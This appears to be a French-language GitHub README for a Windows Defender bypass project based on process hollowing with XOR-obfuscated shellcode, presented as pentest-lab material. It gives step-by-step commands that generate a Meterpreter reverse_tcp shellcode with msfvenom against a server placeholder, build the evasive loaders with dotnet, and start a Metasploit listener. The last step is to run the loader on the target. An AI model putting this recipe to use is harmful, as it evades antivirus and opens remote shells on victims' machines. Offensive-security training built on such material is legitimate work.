 Scripts permettant de contourner la protection antivirale de Windows Defender via la technique de Process Hollowing avec une injection de shellcode préalablement obfusqué avec un fonction XOR.



Ces derniers ont été utilisés dans un lab d'entrainement au pentest et ne sont pas prévus pour être utilisés en dehors de ce cadre.

<br /><br />
-----------------------------------------------------
<br />

<p align="center">
    Ma vidéo sur le sujet : <a href="https://youtu.be/CTkbSiOBi58"><strong>https://youtu.be/CTkbSiOBi58</strong></a>
  </p>

<br />
-----------------------------------------------------
<br /><br />



<h2 align="center">Bypass-AV-ProcessHollowing</h2>

  <p align="center">
    Ce projet est basé sur le dépôt Github de chvancooten :
    <br />
    <a href="https://github.com/chvancooten/OSEP-Code-Snippets"><strong>https://github.com/chvancooten/OSEP-Code-Snippets</strong></a>
  </p>
</div>

<br /><br />





### Utilisation

1. Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Créer un nouveau projet DotNet dans Visual Studio Code :
```  
dotnet new console
```
3. Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom
4. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
5. Exécuter le fichier compilé dans une invite de commande :
```
.\XorCipher.exe
```
6. Créer un second projet DotNet dans une autre instance de Visual Studio Code :
```
dotnet new console
```
7. Remplacer le contenu de Program.cs par le contenu du fichier ProcessHollowing.cs et remplacer le shellcode par celui généré avec XorCipher.exe
8. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
9. Lancer un listener dans la console metasploit :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
10. Exécuter le fichier ProcessHollowing.exe sur le poste cible puis savourer un délicieux cookie aux pépites de chocolat :)




-----------------------------------------------------------------------------------




<p align="center">
    Le lien de mon blog : <a href="https://lestutosdeprocessus.fr"><strong>https://lestutosdeprocessus.fr</strong></a>
    <br />
    <br />
    Le lien pour rejoindre le serveur Discord : <a href="https://discord.gg/JJNxV2h"><strong>https://discord.gg/JJNxV2h</strong></a>
</p>



 
